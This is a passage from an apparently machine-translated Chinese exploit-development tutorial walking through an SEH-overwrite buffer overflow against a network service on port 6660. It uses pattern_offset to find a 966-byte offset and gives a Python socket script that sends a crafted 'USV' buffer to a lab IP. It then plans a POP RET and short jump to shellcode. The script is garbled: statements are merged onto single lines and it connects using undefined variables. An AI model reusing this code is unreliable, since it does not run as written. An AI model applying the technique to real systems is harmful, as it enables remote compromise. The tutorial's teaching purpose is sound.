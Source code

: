 ```
 ruby /path/to/script/pattern_offset.rb -q 423267412
```

以下屏幕截图显示了前面命令的输出：

![](img/09a3a41d-f031-4c46-b222-106ce855f3e9.png)

18.  我们将看到偏移量是`966`字节，在该字节处处理程序被覆盖。
19.  现在让我们稍微修改一下我们的漏洞，看看会发生什么。我们有`966`字节；我们将使用`962`字节的 As 和 4 字节的断点，4 字节的 Bs 和剩余字节的 Cs 来查看发生了什么：

```
        #!/usr/bin/python
        import socket address="192.168.110.12"
        port=6660 buffer = "USV "
        buffer+= "A" * 962
        buffer+= "\xcc\xcc\xcc\xcc"
        buffer+= "BBBB"
        buffer+= "C" * (2504 - len(buffer))
        buffer+= "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port)) 
        sock.send(buffer)
        sock.close()
```

20.  我们运行此程序并查看 SEH 链。在这里，我们将注意到一件有趣的事情：我们添加的前 4 个断点实际上已经覆盖了内存地址，接下来的 4 个断点已经覆盖到我们的 SEH 处理程序中：

![](img/9923fd87-3710-4aa9-ac11-2a4873962b40.png)

这是因为 SEH 是一个指针，当发生异常时，它指向存储代码的内存地址。

21.  让我们将异常传递给程序，我们将看到 EIP 已被覆盖，但当我们查看内存时，我们将看到我们的 Cs 已在内存中的 Bs 之后写入大约 6 个字节。我们可以使用`POP RET`后跟短`JUMP`代码跳转到外壳代码。
22.  我们在调试器的控制台中键入`!safeseh`命令：

![](img/e5fe1f24-019f-47fb-b5ac-841de81bcc5e.png)
